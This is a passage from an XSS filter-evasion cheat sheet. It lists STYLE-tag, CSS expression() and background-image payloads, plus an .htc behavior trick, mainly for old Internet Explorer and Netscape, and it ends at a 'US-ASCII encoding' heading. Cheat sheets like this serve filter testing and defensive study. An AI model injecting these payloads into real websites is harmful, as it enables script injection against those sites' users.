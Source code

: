 ## STYLE tags with broken up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

    <STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

## STYLE attribute using a comment to break up expression

Created by Roman Ivanov

    <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

## IMG STYLE with expression

This is really a hybrid of the above XSS vectors, but it really does
show how hard STYLE tags can be to parse apart, like above this can send
IE into a loop:

    exp/*<A STYLE='no\xss:noxss("*//*");
    xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

## STYLE tag (Older versions of Netscape only)

    <STYLE TYPE="text/javascript">alert('XSS');</STYLE>

## STYLE tag using background-image

    <STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

## STYLE tag using background

    <STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

    <STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>

## Anonymous HTML with STYLE attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

    <XSS STYLE="xss:expression(alert('XSS'))">

## Local htc file

This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:

    <XSS STYLE="behavior: url(xss.htc);">

## US-ASCII encoding
